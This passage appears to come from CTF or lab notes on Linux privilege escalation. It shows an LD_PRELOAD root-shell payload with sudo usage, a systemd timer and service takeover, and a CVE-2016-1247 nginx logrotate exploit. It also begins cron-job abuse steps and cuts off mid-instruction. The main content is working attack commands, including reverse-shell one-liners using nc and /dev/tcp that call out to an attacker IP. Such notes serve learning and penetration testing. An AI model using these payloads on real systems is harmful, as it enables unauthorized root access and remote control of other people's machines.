 ````
    setuid(0);
    system("/bin/bash");
}
````
- 2. Save the file as x.c
- 3. In command prompt type:
````
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
`````
- 4. In command prompt type:
````
sudo LD_PRELOAD=/tmp/x.so apache2
````
- 5. In command prompt type: `id`
### Sudo -l Service Takeover
- ![alt text](https://miro.medium.com/max/2400/1*2HVtq5qvZtanx0WlzaN8dg.png)
- We have write access to `vulnnet-auto.timer` and `vulnnet.job.service` which are custom services on the host
- ![alt text](https://miro.medium.com/max/2400/1*eZ7VQJlIzjIvj4elIpWr9A.png)
- First we modify the `OnCalandar=*:0/30` line to `OnCalandar=*0/1` to make it run every minute versus every 30 minutes 
- ![alt text](https://miro.medium.com/max/2400/1*UNBgv24NMzWawzj2U7qk2g.png)
- Can see that the system executes the `/bin/df` command
- ![alt text](https://miro.medium.com/max/2400/1*N-S2p6n1i2Q17nLlavjwBQ.png)
- We can modify this to spawn a reverse shell via our script
- Can also call a reverse shell on the box 
````
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.13.22.22 1111 >/tmp/f
bash -i >& /dev/tcp/10.13.22.22/1111 0>&1
````
- We then use our `sudo -l` privlages to restart the service
- ![alt text](https://miro.medium.com/max/2400/1*JZqSzROFnTD6fNHWEHGSpw.png)
### SUID SYMLINKS CVE-2016-1247
- Detection
````
dpkg -l | grep nginx
````
- Looking for installed nginx version is below 1.6.2-5+deb8u3
- Required you to be the www-data user!
- Run:
````
/tmp/nginxed-root.sh /var/log/nginx/error.log
````
- System will wait for logrotate to execute, become root user
### Cron Jobs File permissions
- Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. 
- Cron table files (crontabs) store the configuration for cron jobs. The system-wide crontab is located at `/etc/crontab`.
- View the contents of the system-wide crontab:
````
cat /etc/crontab
````
- There should be two cron jobs scheduled to run every minute. One runs overwrite.sh, the other runs /usr/local/bin/compress.sh.
- Locate the full path of the overwrite.sh file:
````
locate overwrite.sh
````
- Note that the file is world-writable:
````
ls -l /usr/local/bin/overwrite.sh
````
- Replace the contents of the overwrite.sh file with the following after changing the IP address to that of your Kali box.